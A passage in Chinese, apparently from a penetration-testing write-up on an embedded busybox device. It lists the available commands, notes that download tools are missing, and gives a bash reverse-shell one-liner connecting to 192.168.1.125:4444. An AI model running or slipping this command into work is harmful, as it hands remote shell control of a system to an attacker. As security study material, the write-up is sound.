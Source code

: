 看来没有这两个程序，这样查看命令和工具是否存在就只能通过环境变量 `PATH` 和 `busybox` 内置列表了

![图片](assets/1710993392-831afb16fbd9a6ced0e8a07afde1daf8.png)

可以看到，文件下载相关的命令 `ftp`、`scp`、`rsync` 等并不支持

```plain
[, [[, ash, awk, bash, cat, chmod, cp, date, df, dmesg, du, echo, env, false, fdisk, free, fsync, gunzip, gzip, halt, hwclock, ifconfig, init, insmod, iostat, kill, linuxrc, ln, login, ls, lsmod, lzcat, lzma, mdev, mkdir, mkdosfs, mkfs.vfat, mknod, modprobe, mount, mpstat, mv, netstat, ping, ping6, poweroff, ps, pwd, reboot, rm, rmmod, route, sed, sh, sleep, stty, sync, tail, tar, test, top, touch, true, umount, unlzma, zcat
```

和外部网络搭边儿的也就是 `ping` 相关的命令

### 2\. 反弹 Shell

-   bash
    
-   nc、telnet
    
-   编程语言环境
    

```plain
bash -i >& /dev/tcp/192.168.1.125/4444 0>&1
```

